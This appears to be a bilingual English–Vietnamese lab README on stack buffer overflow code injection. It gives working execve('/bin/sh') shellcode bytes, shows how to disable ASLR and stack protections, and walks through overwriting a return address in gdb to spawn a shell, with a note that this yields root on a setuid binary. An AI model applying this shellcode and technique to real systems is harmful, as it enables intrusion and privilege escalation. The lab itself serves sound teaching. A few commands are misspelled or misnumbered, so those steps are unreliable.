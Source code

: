 **Tips for code injection lab:**<br>
1. Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)<br>
(Viết chương trình shellcode bằng hợp ngữ, biên dịch (nasm) và liên kết (ld) để tạo chương trình thực thi)
2. Run the following script to get the hex string of shellcode:<br>
(Chạy bash script dưới đây ở dòng lệnh để tạo chuỗi hex của shellcode:)<br>
`$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
<br>--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`<br>
or run this script to generate shellcode binary file:<br>
(Hoặc chạy bash script dưới đây ở dòng lệnh để sinh binary file mã shellcode nếu inject bằng cách đọc file)<br>
`$> for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done;` <br>
3. Estimate buffer size of vulnerable program with input strings of various length (eg. `./vuln.out $(python -c "print('a'*nnn)"`)<br>
(Ước lượng size từ đỉnh stack đến eip khi biên dịch chương trình với option -fno-stack-protector khi gcc)<br>
4. Compute the distance between buffer (esp) and return address to determine the padding bytes will be injected along with the sheelcode.<br>
(Tính toán khoảng cách từ buffer đến eip để xác định padding bytes chèn cùng với shellcode)<br>
**Prepare for the lab environment:**
5. Turn off OS's address space layout randomization (`sudo setctl -w kernel.randomization_va_space`)<br>
(Tắt chế độ tạo cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
6. Compile program with options to defeat stack protecting mechanism and code execution o stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack`<br>
7. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>
9. Load vuln.out in gdb <br>
(Nạp vuln.out trong gdb)<br>
`$> gdb vuln.out`<br>
8. Set break point after strcpy instruction <br>
(Đặt điểm dừng chương trình sau lệnh strcpy)<br>
Run program in gdb with injecting argument
(Khởi chạy chương trình trong gdb, chèn chuỗi hex của shellcode trên dòng lệnh)
(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")
Watch the stack memory from esp (stacktop):
(Quan sát bộ nhớ stack từ esp)
(gdb-peda) x/80xb $esp
Identify the return address while watching out the stack, then replace \xff\xff\xff\xff with value of esp
(Xác định vị trí của địa chỉ trả về trong stack, thay thế \xff\xff\xff\xff với địa chỉ của esp)
set *<address of return address> = <address of esp>
Continue execute program, you should now in the new bash shell:
(Thực thi tiếp chương trình, sẽ thấy xuất hiện dấu nhắc shell --> thực thi được shellcode)
(gdb-peda) continue
$_ <-- you are in the new bash. If vuln.out is set with root as the owner, you will be root in the new shell!  
Type exit to be back in gdb
$exit
(gdb-peda)




